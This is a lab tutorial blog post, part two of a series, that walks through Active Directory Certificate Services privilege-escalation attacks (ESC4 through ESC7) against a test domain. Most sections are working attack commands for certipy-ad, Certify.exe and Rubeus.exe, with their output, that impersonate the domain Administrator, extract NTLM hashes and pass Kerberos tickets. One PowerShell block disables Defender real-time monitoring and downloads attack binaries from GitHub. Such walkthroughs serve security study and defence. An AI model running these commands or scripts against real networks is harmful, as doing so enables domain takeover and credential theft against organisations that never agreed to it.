import { Tweet, Vimeo, YouTube } from 'astro-embed';
import Mermaid from '../../components/Mermaid.astro';

## Introduction
---
どうもサメです! If you haven’t read the [first part of the blog series](https://zachwong02.github.io/blog/adcs-attacks-part-1/) yet, go check that out first. This post builds on the same terms, tools, and techniques we already covered there. We’re also using the same lab setup from part one, with `holo.live` as the Active Directory domain name. In this part, we’re focusing on misconfigurations in the Public Key Infrastructure (PKI) access controls, essentially cases where users can reach objects they normally shouldn’t have access to.

<br></br>

## ESC4 Attack Lab Setup
---
The first misconfiguration we’ll cover in this part of the series is an ESC4 attack. This occurs when users have write access to certificate templates, allowing them to change a template and make it vulnerable to an ESC1 attack.
### Configuring an ESC4 Vulnerable Certificate Template
---


Following the steps from part one on creating a certificate template, keep all settings at their defaults. Then, add **"Domain Users"** to the security groups and give them write access to the certificate template. Once that’s done, publish the certificate template to Active Directory. We went over how to do this in the first part of the series.

<br></br>

### Exploiting The Vulnerable Certificate Templates
---
```plaintext {"As you can see Gawr Gura is able to modify the Certificate Template":36-39}
Template Name                       : ESC4-Vuln
Display Name                        : ESC4-Vuln
Certificate Authorities             : HOLOLIVE-CA
Enabled                             : True
Client Authentication               : True
Enrollment Agent                    : False
Any Purpose                         : False
Enrollee Supplies Subject           : False
Certificate Name Flag               : SubjectAltRequireUpn
Enrollment Flag                     : IncludeSymmetricAlgorithms
									  PublishToDs
									  AutoEnrollment
Private Key Flag                    : ExportableKey
Extended Key Usage                  : Encrypting File System
									  Secure Email
									  Client Authentication
Requires Manager Approval           : False
Requires Key Archival               : False
Authorized Signatures Required      : 0
Schema Version                      : 2
Validity Period                     : 1 year
Renewal Period                      : 6 weeks
Minimum RSA Key Length              : 2048
Template Created                    : 2025-08-23T09:32:13+00:00
Template Last Modified              : 2025-08-23T09:32:13+00:00
Permissions
  Enrollment Permissions
	Enrollment Rights               : HOLO.LIVE\Domain Admins
									  HOLO.LIVE\Domain Users
									  HOLO.LIVE\Enterprise Admins
									  HOLO.LIVE\Authenticated Users
  Object Control Permissions
	Owner                           : HOLO.LIVE\Administrator
	Full Control Principals         : HOLO.LIVE\Domain Admins
									  HOLO.LIVE\Enterprise Admins
									  
	Write Owner Principals          : HOLO.LIVE\Domain Admins
									  HOLO.LIVE\Domain Users
									  HOLO.LIVE\Enterprise Admins
									  HOLO.LIVE\Authenticated Users
	Write Dacl Principals           : HOLO.LIVE\Domain Admins
									  HOLO.LIVE\Domain Users
									  HOLO.LIVE\Enterprise Admins
									  HOLO.LIVE\Authenticated Users
	Write Property Enroll           : HOLO.LIVE\Domain Admins
									  HOLO.LIVE\Domain Users
									  HOLO.LIVE\Enterprise Admins
									  HOLO.LIVE\Authenticated Users
[+] User Enrollable Principals      : HOLO.LIVE\Authenticated Users
									  HOLO.LIVE\Domain Users
[+] User ACL Principals             : HOLO.LIVE\Authenticated Users
									  HOLO.LIVE\Domain Users
[!] Vulnerabilities
  ESC4                              : User has dangerous permissions.
```

```bash
certipy-ad find \
	-u 'gawrgura@holo.live' \
	-p "Password1" \
	-dc-ip 192.168.234.149 \
	-vulnerable \
	-enabled \
	-ldap-scheme ldap
```

Using the command from part one to look for vulnerable certificate templates, we can see that Gawr Gura has write access to the certificate template `ESC4-Vuln`, which is what I named my vulnerable template. As an attacker, this means we can modify the certificate template so it accepts a Subject Alternative Name (SAN) we provide, allowing us to request a certificate that can be used on behalf of another user.

<br></br>

```bash
certipy-ad template \
	-u 'gawrgura@holo.live' \
	-p 'Password1' \
	-template ESC4-Vuln \
	-dc-ip 192.168.234.149 \
	-save-configuration current_config
```

If you want to back up the current configuration of a certificate template, you can do it with `certipy-ad`. Using `gawrgura@holo.live`’s credentials, specify the certificate template you want with the `-template` switch, include the Domain Controller’s IP with the `-dc-ip` switch, and finish with the `-save-configuration` switch.

<br></br>

```bash
certipy-ad template \
	-u 'gawrgura@holo.live' \
	-p 'Password1' \
	-template ESC4-Vuln \
	-dc-ip 192.168.234.149 \
	-write-default-configuration
```

To exploit this, use the `-write-default-configuration` switch instead of `-save-configuration`. This saves the current certificate template’s configuration before making any changes. By default, `certipy-ad` will then modify the certificate template to make it vulnerable to an ESC1 attack.

<br></br>



After running the command, confirm it so the certificate template is modified.

<br></br>



Looking at the certificate template on the Certificate Authority (CA) shows that it now allows the user to provide a SAN.

<br></br>



Under **"Extensions"**, the template is set so users can authenticate with the certificate that is issued.

<br></br>



Finally, the certificate template gives **"Authenticated Users"** full control over it.

<br></br>

```plaintext {"You can see that the template is now vulnerable to ESC1 attacks":30-31}
Template Name                       : ESC4-Vuln
Display Name                        : ESC4-Vuln
Certificate Authorities             : HOLOLIVE-CA
Enabled                             : True
Client Authentication               : True
Enrollment Agent                    : False
Any Purpose                         : False
Enrollee Supplies Subject           : True
Certificate Name Flag               : EnrolleeSuppliesSubject
Private Key Flag                    : ExportableKey
Extended Key Usage                  : Client Authentication
Requires Manager Approval           : False
Requires Key Archival               : False
Authorized Signatures Required      : 0
Schema Version                      : 2
Validity Period                     : 1 year
Renewal Period                      : 6 weeks
Minimum RSA Key Length              : 2048
Template Created                    : 2025-08-23T09:32:13+00:00
Template Last Modified              : 2025-08-24T09:56:59+00:00
Permissions
  Object Control Permissions
	Owner                           : HOLO.LIVE\Administrator
	Full Control Principals         : HOLO.LIVE\Authenticated Users
	Write Owner Principals          : HOLO.LIVE\Authenticated Users
	Write Dacl Principals           : HOLO.LIVE\Authenticated Users
[+] User Enrollable Principals      : HOLO.LIVE\Authenticated Users
[+] User ACL Principals             : HOLO.LIVE\Authenticated Users
[!] Vulnerabilities

  ESC1                              : Enrollee supplies subject and template allows client authentication.
  ESC4                              : User has dangerous permissions.
```

Searching for vulnerable certificate templates again shows that the `ESC4-Vuln` template is vulnerable to ESC1 attacks as well as ESC4 attacks.

<br></br>



```bash
certipy-ad req \
	-u gawrgura@holo.live \
	-p "Password1" \
	-ca HOLOLIVE-CA \
	-template ESC4-Vuln \
	-upn administrator@holo.live \
	-dc-ip 192.168.234.149 \
	# if your Certificate Authority is on a separate server \
	-target CA.holo.live
```

You can exploit it with the same command introduced in the first part of the series, which allows the attacker to request a certificate that can be used for the Administrator. If your CA is on a separate server, use the `-target` switch and provide the CA’s UPN as the argument.

<br></br>



```bash
certipy-ad auth \
	-pfx administrator.pfx \
	-dc-ip 192.168.234.149
```

Once the certificate has been issued, the attacker can use it to authenticate to the domain.

<br></br>

## ESC5 Attack Lab Setup
---
Next on Gawr Gura’s list is an ESC5 attack. This one’s interesting because it targets a compromised CA server. In reality, your CA usually won’t be on the Domain Controller, which is why this attack path exists. For this lab it’s fine, but it isn’t ideal as one forum user put it:
> Random Citizen: Why put all of your eggs in one basket?

After the CA server is compromised, the attacker can obtain its certificate and use it to create Golden Certificates, similar to Golden Tickets in Kerberos. There is also another attack path where a Domain Administrator from a child domain can escalate privileges to gain access to the root Domain Controller. That is the path we’ll be looking at today.

<br></br>

### Creating a Child Domain
---


Following [Heath Adams' tutorial](https://youtu.be/xftEuVQ7kY0?si=X0wRYuE1P-Zq0vw5) again, create another Windows Server virtual machine, but stop before promoting it to a Domain Controller. Set the new server’s DNS to the existing Domain Controller’s IP address. This step is required to set up the new child Domain Controller.

<br></br>



When promoting the server to a Domain Controller, use the root domain’s Administrator credentials for deployment. In my case, these are:
```
HOLOLIVE\Administrator:P@ssw0rd
```

<br></br>



Choose **"Add a new domain to an existing forest"** instead of **"Add a new forest"**. Set **"Select domain type"** to **"Child Domain"**. Since the DNS points to the root Domain Controller and the credentials are the root domain’s Administrator, clicking **"Select"** under **"Parent domain name"** will show the root domain by default. In my case, it is `holo.live`.

<br></br>



Next, assign a name to the child domain. Since this blog series is Hololive-themed and Hololive EN has different subgroups, I named this one `promise.holo.live`.

<br></br>



Finally, I set the NetBIOS name to `PROMISE`. From here, you can go back to Heath Adams' tutorial for the last steps on promoting the Windows Server to a Domain Controller. It is mostly just clicking through a few **"Next"** buttons and then **"Install"**.

<br></br>



After setting up and restarting the child Domain Controller, open **"Active Directory Domains and Trusts"**. Under the root domain `holo.live`, you’ll see it automatically trusts the child domain `promise.holo.live` by default. This built-in trust is a key reason why the CA is vulnerable to an ESC5 attack.

<br></br>



To check if the child Domain Controller is truly a child domain and trusted by the root domain, open **"Active Directory Users and Computers"**. Right-click the child domain and select **"Change Domain"**.

<br></br>



Next, go to **"Browse"** and open the root domain by double-clicking `holo.live`. Once that’s done, click **"OK"**.

<br></br>



After applying it, go to **"Users"**, where you should now see the accounts from the root Domain Controller.

<br></br>


Look at the list of users and you’ll spot one of the compromised accounts. It’s Gawr Gura herself!

<br></br>

### Adding a Local Administrator to the Child Domain
---



Next on the list for this attack vector to work is that the attacker needs access to a Local Administrator account on the child Domain Controller. In my case, I created another Domain User in the child domain and added them to the Local Administrators group.

<br></br>


Since the child domain is named after the Hololive subgroup Promise, it only makes sense to make Ouro Kronii the Local Administrator of this child Domain Controller. If you're following along, her credentials are as follows:
```
ourokronii@promise.holo.live:Password2
```

<br></br>
<br></br>



```
net localgroup administrators "PROMISE\ourokronii" /add
```

After creating the new Domain User, add her to the Local Administrators group using the command shown above.

<br></br>



```
net user ourokronii /domain
```

You can verify that she has been added to the group by running the command above.

<br></br>

### ESC5 Attack Simulation
---
Now that everything is set up, the key point to note here is that the root domain trusts the child domain by default. The child domain also keeps a local copy of the root domain’s objects. Because of this trust, any changes made in the child domain are replicated to the root domain. This is the core of the vulnerability that enables an ESC5 attack. One more thing to note is that making changes requires administrator rights on the machine, which is why the user `ourokronii@promise.holo.live` was created. The main attack path here is escalating from an Administrator on the child domain to an Administrator on the root domain.

To put it even more simply, let Fuwamoco explain what that means:
<Vimeo id="https://vimeo.com/1110836665"/>

<br></br>
<br></br>



So what are we changing in the child domain? Launch `mmc.exe` and add the **"ADSI Edit"** snap-in, then connect to **"Configurations"**. Navigate to `CN=Configuration,DC=holo,DC=live` -> `CN=Services` -> `CN=Public Key Service`. In **"ADSI Edit"**, the `CN=Public Key Services` container is the root location for all forest-wide PKI configuration data in Active Directory. Under the **"Security"** tab, you’ll see that the `SYSTEM` user has permission to modify this container.

<br></br>



Since the container is owned by `NT Authority/SYSTEM`, how do we escalate from a Local Administrator to `NT Authority/SYSTEM`? We can use `PsExec.exe`, a Sysinternals tool that lets us launch programs or sessions with `NT Authority/SYSTEM` privileges. Here, we’ll use it to launch `mmc.exe` so we can add `ourokronii@promise.holo.live` to the security group of that container and make the needed changes to its objects.

<br></br>



Go back to the same container, open its properties, and under the **"Security"** tab click **"Advanced"**. With the permissions we have, add the user `ourokronii@promise.holo.live` and give her full control of the container. Make sure to select **"This object and all descendant objects"** so the permission applies recursively to everything inside that container.

<br></br>



```powershell
Install-WindowsFeature AD-Certificate, ADCS-Cert-Authority -IncludeManagementTools
```

The only reason we gave `ourokronii@promise.holo.live` permissions over that container and it's contents is so that we can modify what certificate templates are published on the domain. This can be done specifically through the `Enrollment Services` container which is basically the main CA server object.

However, we don’t have a way to add a new certificate even though we have the rights to publish one. If we ignore the `ESC1-Vuln`, `ESC2-Vuln`, `ESC3-Vuln`, and `ESC4-Vuln` templates and assume they aren’t available in this lab, we can install ADCS on the child Domain Controller to get an interface for creating a certificate template. Install it with the PowerShell command shown above in an Administrator shell. Once that’s done, create a certificate template through the **"Certificate Authority**" interface, and it will be replicated to the root domain and the CA.

<br></br>



After installing ADCS, run `mmc.exe` as `ourokronii@promise.holo.live` and add the **"Certificate Templates"** snap-in. There you’ll see the templates we created earlier.

<br></br>



At this stage, clone the **"Domain Controller Authentication"** certificate template and rename it `ESC5-Vuln`. Add the user `ourokronii@promise.holo.live` and give her Read, Write, and Enroll permissions. Then configure the template to accept a SAN so the certificates issued can be used on behalf of another user.

<br></br>



To publish the certificate template, open **"ADSI Edit"** as `ourokronii@promise.holo.live`. Under `CN=Enrollment Services` in the `CN=Public Key Services` container, open the properties of the CA server. In my case, it is `CN=HOLOLIVE-CA`. Select `certificateTemplates`, which lists the templates published to Active Directory. Type the name of the new template, `ESC5-Vuln`, then click **"Add"** and **"OK"**.

<br></br>



At this stage, the changes will appear on the root domain. If you open **"Certificate Authority"** and check the published certificate templates on the root Domain Controller, you’ll see that the `ESC5-Vuln` template has been created and published.

<br></br>

```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
wget https://github.com/r3motecontrol/Ghostpack-CompiledBinaries/raw/refs/heads/master/Rubeus.exe -O Rubeus.exe
wget https://github.com/r3motecontrol/Ghostpack-CompiledBinaries/raw/refs/heads/master/Certify.exe -O Certify.exe
```

Since most of the attacks we’ve done so far were on Linux, this time we’ll run the attack on the compromised machine instead. The guides I’ve seen for this attack path also use the compromised machine, so that’s the approach we’ll take here. For obvious reasons, we’ll disable Real-Time Monitoring in Microsoft Defender with the command shown above and download `Certify.exe` and `Rubeus.exe`.

`Certify.exe`, like `certipy-ad`, is a tool used to find weak settings in Active Directory Certificate Services. It can also be used to request certificates, just like `certipy-ad`. On the other hand, `Rubeus.exe` focuses on Kerberos tickets. It can request, steal, and reuse tickets to move around a network without needing passwords. These are separate tools that together cover what `certipy-ad` can do in one tool.

<br></br>



```powershell
.\Certify.exe request `
    /ca:CA.holo.live\HOLOLIVE-CA `
    /template:ESC5-Vuln `
    /altname:HOLOLIVE\Administrator
```

With `Certify.exe`, run the command above to request a certificate from the CA server. In simple terms, this is an ESC1 attack where `Certify.exe` asks the CA server for a certificate using the `/ca` switch to define the server we’re requesting the certificate from, the `/template` switch for the template we have access to, and the `/alt` switch to provide a SAN. After running the command, the CA will issue a certificate for us. `Certify.exe` outputs the certificate in the form of a `.pem` file, which includes both the private key and the certificate in Base64 format. Copy this output into a file named `cert.pem`.

<br></br>



```bash
openssl pkcs12 \
	-in ./cert.pem \
	-keyex \
	-CSP "Microsoft Enhanced Cryptographic Provider v1.0" \
	-export \
	-legacy \
	-out cert.pfx
```

Transfer the `cert.pem` file back to your attacker machine and run the `openssl` command shown above to convert it into a `cert.pfx` file. When prompted for an **"Export Password"**, just press **"Enter"** to leave it blank.

<br></br>



```powershell
.\Rubeus.exe asktgt `
    /user:Administrator `
    /domain:holo.live `
    /certificate:cert.pfx `
    /getcredentials `
    /ptt
```

With the certificate issued to `ourokronii.promise.holo.live`, we can use it to act as `Administrator@holo.live` and authenticate to the Domain Controller of `holo.live` with `Rubeus.exe`. We add `asktgt` to instruct `Rubeus.exe` to request a Ticket-Granting-Ticket. The `/user` switch specifies `Administrator` in the `holo.live` domain, while `/certificate:cert.pfx` points to the certificate and private key we previously exported and moved back to the compromised machine. The `/getcredentials` option tells Rubeus to extract the NTLM hash and Kerberos keys from the ticket. Finally, `/ptt` injects the Ticket-Granting-Ticket into our current session, allowing us to authenticate as `Administrator` without knowing the password.

<br></br>



After running the command, `Rubeus.exe` returns the NTLM hash for `HOLOLIVE\Administrator`, which can then be used in Pass-The-Hash attacks against other systems in the root domain. At the same time, it also provides a valid Ticket-Granting-Ticket, output in Base64 and automatically imported into our current session thanks to the `/ptt` switch. This means we now have both the reusable credentials and an active Kerberos ticket to authenticate as `Administrator` across the root domain.

<br></br>



By using the `klist` command, we can confirm that a Kerberos ticket for the root domain’s Administrator account is cached on our child domain’s machine. This confirms the authentication was successful and that the ticket is ready for Kerberos operations. The cached ticket can now be presented to services like SMB, LDAP, or WinRM, giving us the ability to interact with the Domain Controller and other sensitive systems as if we were the legitimate Administrator.

<br></br>



We can confirm this by listing the `C:\` directory on the root Domain Controller, which is a default network share restricted to users on the Domain Controller. We can also open a shell with `PsExec.exe` using the command shown above. Running `whoami` and `hostname` then confirms that we are the root Domain Administrator on the root Domain Controller.

<br></br>

## ESC6 Attack Lab Setup
---
The next splash in Gawr Gura’s shark tales is the ESC6 attack. This isn’t an access control misconfiguration but a misconfiguration on the CA server rather than on certificate templates. ESC6 appears when attackers abuse certificate issuance for web servers. Admins sometimes want to add extra hostnames to certificates, and this is done by allowing SAN request attributes through the `EDITF_ATTRIBUTESUBJECTALTNAME2` flag set on the CA.

The `EDITF_ATTRIBUTESUBJECTALTNAME2` flag applies across the entire CA, which means any certificate template that allows less-privileged users to enroll can be abused to issue certificates. The attack method is the same as ESC1, just on a larger scale.

<br></br>



```
certutil -getreg policy\EditFlags
```

The configuration of the CA is stored in a registry key on the server, and it can be checked by running the command shown above. This registry key contains important details that define how the CA operates, such as the flags set on it, restrictions, and additional options like whether SAN attributes are allowed.

<br></br>



```
certutil -setreg policy\EditFlags +EDITF_ATTRIBUTESUBJECTALTNAME2
net stop certsvc & net start certsvc
```

To configure the CA server so it accepts SAN attributes, run the commands above directly on the CA server to add the required flag. After setting the flag, restart Certificate Services to apply the changes.

<br></br>

### ESC6 Attack Simulation
---

```plaintext {"This policy basically allows users to supply a SAN":14-15}
Certificate Authorities
  0
    CA Name                             : HOLOLIVE-CA
    DNS Name                            : CA.holo.live
    Certificate Subject                 : CN=HOLOLIVE-CA, DC=holo, DC=live
    Certificate Serial Number           : 21A534D8953B548B4502D8063B362CC2
    Certificate Validity Start          : 2025-08-21 12:24:54+00:00
    Certificate Validity End            : 2124-08-21 12:34:54+00:00
    Web Enrollment
      HTTP
        Enabled                         : True
      HTTPS
        Enabled                         : False
	
    User Specified SAN                  : Enabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Active Policy                       : CertificateAuthority_MicrosoftDefault.Policy
    Permissions
      Owner                             : HOLO.LIVE\Administrators
      Access Rights
        Enroll                          : HOLO.LIVE\Authenticated Users
                                          HOLO.LIVE\Gawr Gura
        ManageCa                        : HOLO.LIVE\Domain Admins
                                          HOLO.LIVE\Enterprise Admins
                                          HOLO.LIVE\Administrators
                                          HOLO.LIVE\Gawr Gura
        ManageCertificates              : HOLO.LIVE\Domain Admins
                                          HOLO.LIVE\Enterprise Admins
                                          HOLO.LIVE\Administrators
    [+] User Enrollable Principals      : HOLO.LIVE\Authenticated Users
                                          HOLO.LIVE\Gawr Gura
    [+] User ACL Principals             : HOLO.LIVE\Gawr Gura
    [!] Vulnerabilities
      ESC6                              : Enrollee can specify SAN.
      ESC7                              : User has dangerous permissions.
      ESC8                              : Web Enrollment is enabled over HTTP.
    [*] Remarks
      ESC6                              : Other prerequisites may be required for this to be exploitable. See the wiki for more details.
```

Running the same command to check for vulnerable certificates will also return findings related to the CA server configuration. In the output above, `User Specified SAN` is shown as enabled, meaning users can request certificates with custom SAN values that allow them to impersonate other accounts.

<br></br>



Because this vulnerability comes from a misconfiguration on the CA server rather than a certificate template, requesting a certificate with the **"User"** template, which allows Client Authentication, and supplying a SAN for `Administrator@holo.live` is enough to get a certificate that grants us access as the Administrator. If your CA is on a separate server, use the `-target` switch and provide the CA’s UPN as the argument.

<br></br>



Running the same `certipy-ad` command to authenticate into the domain with a certificate gives us the NTLM hash for `Administrator@holo.live`.

<br></br>

## ESC7 Attack Lab Setup
---
The last attack in this blog post is ESC7. ESC7 can be seen as both a misconfiguration of the CA server and of PKI access controls. It happens when a user or group is given **"Manage CA"** rights, which lets them change CA policy settings and issue revoked or failed certificate requests. That is what we will explore in this final section.



Setting up this part of the lab is simple. Open **"Certificate Authority"**, right-click the CA, and select **"Properties"**.

<br></br>



In the **Security** tab, add `gawrgura@holo.live` to the security group and enable **"Manage CA"** and **"Request Certificates"**.

<br></br>

### ESC7 Attack Simulation I
---
```plaintext
Certificate Authorities
  0
    CA Name                             : HOLOLIVE-CA
    DNS Name                            : CA.holo.live
    Certificate Subject                 : CN=HOLOLIVE-CA, DC=holo, DC=live
    Certificate Serial Number           : 21A534D8953B548B4502D8063B362CC2
    Certificate Validity Start          : 2025-08-21 12:24:54+00:00
    Certificate Validity End            : 2124-08-21 12:34:54+00:00
    Web Enrollment
      HTTP
        Enabled                         : True
      HTTPS
        Enabled                         : False
    User Specified SAN                  : Enabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Active Policy                       : CertificateAuthority_MicrosoftDefault.Policy
    Permissions
      Owner                             : HOLO.LIVE\Administrators
      Access Rights
        Enroll                          : HOLO.LIVE\Authenticated Users
                                          HOLO.LIVE\Gawr Gura
        ManageCa                        : HOLO.LIVE\Domain Admins
                                          HOLO.LIVE\Enterprise Admins
                                          HOLO.LIVE\Administrators
                                          HOLO.LIVE\Gawr Gura
        ManageCertificates              : HOLO.LIVE\Domain Admins
                                          HOLO.LIVE\Enterprise Admins
                                          HOLO.LIVE\Administrators
    [+] User Enrollable Principals      : HOLO.LIVE\Authenticated Users
                                          HOLO.LIVE\Gawr Gura
    [+] User ACL Principals             : HOLO.LIVE\Gawr Gura
    [!] Vulnerabilities
      ESC6                              : Enrollee can specify SAN.
      ESC7                              : User has dangerous permissions.
      ESC8                              : Web Enrollment is enabled over HTTP.
    [*] Remarks
      ESC6                              : Other prerequisites may be required for this to be exploitable. See the wiki for more details.
```

When using `certipy-ad` to find misconfigurations again, you will see the CA server is vulnerable to an ESC6 attack as the current user has **"Manage CA"** rights over the CA server.

<br></br>



```bash
certipy-ad ca \
	-ca HOLOLIVE-CA \
	-dc-ip 192.168.234.149 \
	-u gawrgura \
	-p 'Password1' \
	-add-officer gawrgura \
	# if your Certificate Authority is on a separate server \
	-target CA.holo.live
```

The first way to exploit this misconfiguration is by enabling a vulnerable certificate template like `SubCA` or `Subordinate Certificate Authority`, which is enabled by default. If it is not enabled, you can turn it on by first making `gawrgura@holo.live` a Certificate Manager with the command shown above. If your CA is on a separate server, use the `-target` switch and provide the CA’s UPN as the argument.

<br></br>



Checking the CA properties again, you can see that `gawrgura@holo.live` now has permission to issue and manage certificates, allowing her to publish and approve certificate requests.

<br></br>



```bash
certipy-ad ca \
	-ca HOLOLIVE-CA \
	-dc-ip 192.168.234.149 \
	-u gawrgura \
	-p 'Password1' \
	-enable-template SubCA \
	# if your Certificate Authority is on a separate server \
	-target CA.holo.live
```

By running `certipy-ad` with the `ca` command, and adding the `-enable-template` switch, and specifying the `SubCA` certificate template will enable the template, allowing users to request certificates under it. If your CA is on a separate server, use the `-target` switch and provide the CA’s UPN as the argument.

<br></br>


```bash
certipy-ad req \
	-ca HOLOLIVE-CA \
	-dc-ip 192.168.234.149 \
	-u gawrgura \
	-p 'Password1' \
	-template SubCA \
	-upn Administrator@holo.live \
	# if your Certificate Authority is on a separate server \
	-target CA.holo.live
```

With the certificate template enabled, `gawrgura@holo.live` can request a certificate with a SAN for the Domain Administrator. By default the `SubCA` template rejects incoming requests, but since `gawrgura@holo.live` has the rights to approve them this is not an issue. For now, save the private key because it will be needed later once the request is approved.

<br></br>



On the CA, under **"Failed Requests"**, you can see that the certificate request from `gawrgura@holo.live` with the ID of 6 has failed. Make sure to note the ID since we will need it to approve the request from the attacker machine. The same ID is also shown when the certificate was first requested on the attacker machine.

<br></br>



```bash
certipy-ad ca \
	-ca HOLOLIVE-CA \
	-dc-ip 192.168.234.149 \
	-u gawrgura \
	-p 'Password1' \
	-issue-request 6 \
	-target CA.holo.live
```

Using the `ca` command in `certipy-ad`, you can issue the failed certificate request by adding the `-issue-request` switch and specifying the ID of the failed request. If your CA is on a separate server, use the `-target` switch and provide the CA’s UPN as the argument.

<br></br>



On the CA, under **"Issued Certificates"**, you can see that the previously failed request with ID 6 has now been issued to `gawrgura@holo.live` using the `SubCA` certificate template.

<br></br>


```bash
certipy-ad req \
	-ca HOLOLIVE-CA \
	-dc-ip 192.168.234.149 \
	-u gawrgura \
	-p 'Password1' \
	-template SubCA \
	-upn Administrator@holo.live \
	-retrieve 6 \
	-target CA.holo.live
```

Using the private key saved earlier, we can now retrieve the issued certificate with the `-retrieve` switch and the certificate ID from the `req` command in `certipy-ad`. If your CA is on a separate server, use the `-target` switch and provide the CA’s UPN as the argument.

If you are following along, you will see that trying to authenticate with the certificate results in a `KDC_ERROR_CLIENT_NOT_TRUSTED` error in `certipy-ad`. As mentioned in the first part of the series, the `SubCA` template is one of the templates that appears to allow authentication. Looking more closely, though, any certificate issued from the `SubCA` template is created with `Basic Constraints: CA=TRUE` and key usages like Certificate Signing and CRL Signing. This makes it a CA certificate rather than a user certificate. Domain Controllers will never accept CA certificates for Kerberos PKINIT, no matter what the template metadata claims. 

>At least that’s what ChatGPT told me when I gave it the rogue certificate from the lab to check.

While `SubCA` templates are useful for escalating CA privileges, the point of showing it here is to demonstrate how these privileges can be abused to enable other certificate templates and grant users the ability to issue certificates.

<br></br>

### ESC7 Attack Simulation II
---
The second method builds on an ESC6 attack. Since the user `gawrgura@holo.live` has **ManageCA** rights, she can change CA policy settings. This includes flipping the `EDITF_ATTRIBUTESUBJECTALTNAME2` flag on the CA server, which allows ESC1 attacks. In the ESC6 lab setup, this flag was modified directly on the CA server. But if an attacker compromised a workstation on a domain with a vulnerable CA server, how could they set the flag remotely on the CA? BlackArrowSec solved this by releasing [a modified version of Certify](https://github.com/blackarrowsec/Certify).

The snippet below shows how they added the function to flip the `EDITF_ATTRIBUTESUBJECTALTNAME2` flag on the CA server remotely:
```c#
CERTADMINLib.ICertAdmin2 objCertAdmin = new CERTADMINLib.CCertAdmin();

try
{
  if (enableSAN)
  {
    // read the current configuration 
    var entry = objCertAdmin.GetConfigEntry(CA, @"PolicyModules\CertificateAuthority_MicrosoftDefault.Policy", "EditFlags");

    // 0x00040000 ==  EDITF_ATTRIBUTESUBJECTALTNAME2 
    if (((int)entry & 0x00040000) == 0x00040000)
    {
        Console.WriteLine("\r\n[*] EDITF_ATTRIBUTESUBJECTALTNAME2 is already enabled. No changes required.");
    }
    else
    {
        // flip the EDITF_ATTRIBUTESUBJECTALTNAME2 bit
        var newValue = (int)entry | 0x00040000;
        objCertAdmin.SetConfigEntry(CA, @"PolicyModules\CertificateAuthority_MicrosoftDefault.Policy", "EditFlags", newValue);
        Console.WriteLine("\r\n[*] EDITF_ATTRIBUTESUBJECTALTNAME2 enabled!");
    }
  }
}
```

The function `ICertAdmin2::SetConfigEntry` from the CA’s COM/DCOM interface is used by the code to remotely modify CA configuration values. These values are persistent settings stored in the registry at `HKLM\SYSTEM\CurrentControlSet\Services\CertSvc\Configuration\<CAName>`.


The process is straightforward. The module first checks the `EditFlags` entry in the CA’s default policy module. If the SAN flag (`0x00040000`) is already present, nothing changes. If it is missing, the code enables the bit and writes the updated value back with `SetConfigEntry`. This update allows SAN values to be included in certificate requests.

Invoking this method achieves the same result as running `certutil -setreg` directly on the CA. The difference is that tools like Certify can carry it out remotely through DCOM, provided the user has **"Manage CA"** rights. With those permissions, the registry-backed configuration can be updated without ever needing direct access to the CA server itself.

<br></br>



On a normal Windows workstation, the COM objects needed for this code aren’t available by default. If you try to run it without the right components, the call fails with a _Class not registered_ error. This happens because the system cannot create the `ICertAdmin2` COM object, which depends on libraries like `certadm.dll`. To fix this, you need to install the AD CS management tools using RSAT with the command:
```powershell
Add-WindowsCapability -Online -Name Rsat.CertificateServices.Tools~~~~0.0.1.0`
```

This command installs the Certificate Services administration tools and registers the COM classes needed for CA management. This step assumes the current user has escalated to a Local Administrator, since only admins can add Windows capabilities. Installing RSAT doesn’t turn the workstation into a CA. Instead, it makes the workstation CA-aware by adding the snap-ins and APIs required to interact with a CA remotely.

<br></br>

<Mermaid code={`
sequenceDiagram
  participant Client as Client (Workstation)
  participant EPM as CA: RPC Endpoint Mapper (TCP 135)
  participant Dyn as CA: Dynamic RPC Port (e.g., 49xxx)
  participant CA as CA Service (CertSvc)

  Client->>EPM: Bind (MSRPC) - "ICertAdmin2?"
  EPM-->>Client: Endpoint info (dynamic port)
  Client->>Dyn: Re-bind (MSRPC/DCOM)
  Client->>Dyn: ICertAdmin2::SetConfigEntry(...)
  Dyn->>CA: Apply change (registry-backed)
  CA-->>Dyn: Success/Failure
  Dyn-->>Client: Return result
`} />



```
.\Certify.exe setconfig `
    /ca:CA.holo.live\HOLOLIVE-CA `
    /enablesan `
    /restart
```

The modified version of `Certify.exe` includes an extra command called `setconfig`. When used with the `/ca` switch to specify the CA server, `/enablesan` to add the `EDITF_ATTRIBUTESUBJECTALTNAME2` flag to the CA policy, and `/restart` to restart the service so the change takes effect, it updates the server’s configuration. After running this, users can provide a SAN in a certificate template, which enables an ESC1 attack.

<br></br>



Checking the CA server’s policy settings, you can see the `EDITF_ATTRIBUTESUBJECTALTNAME2` flag has been added. Exploiting this works the same way as in the ESC1 and ESC6 sections.

<br></br>

## Conclusion
---


From this post you can see that ADCS attacks often start with certificate templates. Many of them also build on earlier attacks by creating or modifying a template that is vulnerable to an ESC1 attack. We also saw how these attacks can be executed in different ways like abusing trust on a child domain controller to get root Domain Administrator access or using a custom `Certify.exe` to change CA policy settings remotely from a workstation. I believe I cooked with this part of the series but the next one will be even better since I went above and beyond to understand the attack. Sorry for not adding any Hololive illustrations this time. Stick around for the next post with Gawr Gura because it is only going to get crazy from here.

<br></br>

## References
---
- https://youtu.be/v0LpWWBOy_c?si=j_JTwzSLtVMiSrok
- https://posts.specterops.io/from-da-to-ea-with-esc5-f9f045aa105c
- https://www.pkisolutions.com/escalating-from-child-domains-admins-to-enterprise-admins-in-5-minutes-by-abusing-ad-cs-a-follow-up/
- https://adminions.ca/books/adcs/page/esc5
- https://www.hackingarticles.in/ad-cs-esc5-vulnerable-pki-object-access-control/
- https://luemmelsec.github.io/Skidaddle-Skideldi-I-just-pwnd-your-PKI/#esc5
- https://redfoxsec.com/blog/exploiting-active-directory-certificate-services-ad-cs/
- https://www.nccgroup.com/research-blog/defending-your-directory-an-expert-guide-to-fortifying-active-directory-certificate-services-adcs-against-exploitation/
- https://www.rbtsec.com/blog/active-directory-certificate-attack-adcs-esc6/
- https://www.hackingarticles.in/esc6-editf_attributesubjectaltname2/
- https://posts.specterops.io/adcs-attack-paths-in-bloodhound-part-3-33efb00856ac
